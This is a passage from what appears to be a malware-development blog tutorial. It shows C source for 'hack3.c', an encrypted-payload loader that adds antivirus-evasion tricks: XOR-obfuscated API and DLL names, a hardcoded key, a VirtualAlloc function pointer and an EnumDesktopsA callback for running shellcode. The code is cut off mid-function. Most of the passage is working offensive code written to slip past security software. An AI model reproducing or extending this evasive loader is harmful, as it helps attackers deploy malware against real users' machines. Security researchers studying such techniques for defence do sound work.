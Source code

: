 This version is also worked perfectly.     

### practical example 3

Let's update our main "malware": add some evasion tricks like [function call obfuscation](/tutorial/2021/09/06/simple-malware-av-evasion-2.html), [hashing function names](/tutorial/2022/03/22/simple-av-evasion-5.html), add [GetModuleHandle](/malware/2023/04/08/malware-av-evasion-15.html) and [GetProcAddress](/malware/2023/04/16/malware-av-evasion-16.html) implementations.      

This version is looks like this - `hack3.c`:    

```cpp
/*
* hack3.c
* encrypt/decrypt payload 
* via CAST-128 algorithm
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/29/malware-cryptography-31.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>
#include <winternl.h>
#include <shlwapi.h>
#include <string.h>

#define BLOCK_SIZE 8
#define ROUNDS 16
#define KEY_SIZE 16

int cmpUnicodeStr(WCHAR substr[], WCHAR mystr[]) {
  _wcslwr_s(substr, MAX_PATH);
  _wcslwr_s(mystr, MAX_PATH);

  int result = 0;
  if (StrStrW(mystr, substr) != NULL) {
    result = 1;
  }

  return result;
}

typedef BOOL (CALLBACK * EnumDesktopsA_t)(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);

LPVOID (WINAPI * pva)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);

unsigned char cva[] = { 0x27, 0x1c, 0x13, 0x17, 0x1e, 0x10, 0x19, 0x20, 0xf, 0x7, 0x1e, 0x16 };
unsigned char udll[] = { 0x4, 0x6, 0x4, 0x11, 0x58, 0x43, 0x5b, 0x5, 0xf, 0x7 };
unsigned char kdll[] = { 0x1a, 0x10, 0x13, 0xd, 0xe, 0x1d, 0x46, 0x53, 0x4d, 0xf, 0x1d, 0x19 };

char secretKey[] = "quackquack";

// encryption / decryption XOR function
void d(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
```